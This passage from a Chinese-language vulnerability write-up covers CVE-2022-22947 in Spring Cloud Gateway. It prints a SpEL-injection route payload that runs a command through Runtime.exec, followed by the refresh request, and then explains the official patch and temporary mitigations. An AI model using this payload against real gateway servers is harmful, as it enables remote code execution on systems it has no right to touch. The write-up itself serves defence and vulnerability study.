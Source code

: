 ``` text
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.Strin(T(org.springframework.util.StreamUtils).copyToByteArray((java.lang.Runtime).getRuntime().exec(new String[{\"calc\"}).getInputStream()))}"}
    }],
  "uri": "https://blog.dre4merp.top",
  "order": 0
}
```

#### 刷新路由

``` text
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

### 漏洞防护

#### 官方修复

官方已经发布了针对CVE-2022-22947的[补丁](https://github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e)

![20220411114937](https://cdn.jsdelivr.net/gh/dre4merp/Drawing-bed@main/images/20220411114937.png)

具体方案如下：

在 `ShortcutConfigurable` 接口中的 `getValue` 方法中，使用自定义的 `GatewayEvaluationContext` 类替换了原来的 `StandardEvaluationContext` 类。查看 `GatewayEvaluationContext` 类的实现可知，其是对 `SimpleEvaluationContext` 类的简单封装。

通过查询文档可知，`StandardEvaluationContext` 和 `SimpleEvaluationContext` 都类是执行 Spring 的 SpEL 表达式的接口，区别在于前者支持 SpEL 表达式的全部特性，后者相当于一个沙盒，限制了很多功能，如对 Java 类的引用等。因此通过将 `StandardEvaluationContext` 类替换为 `GatewayEvaluationContext` 类，可以限制执行注入的 SpEL 表达式。

#### 临时修补

##### 禁用 actuator gateway

通过前面的漏洞利用过程可以看到，首先需要通过 `/actuator/gateway/routes/{id}` API 创建一条路由。因此将此 API 禁止，也可实现漏洞的修复。根据 Actuator 的 API 文档可知，启用 actuator gateway 需要设置以下两个配置的值：

``` text
management.endpoint.gateway.enabled=true # default value
management.endpoints.web.exposure.include=gateway
```

因此只要这两个选项不同时满足，就不会启用 actuator gateway。

##### HotPatch

通过Agent技术将内存中的`ShortcutConfigurable#getValue`修改为使用`GatewayEvaluationContext`调用SpEL表达式。
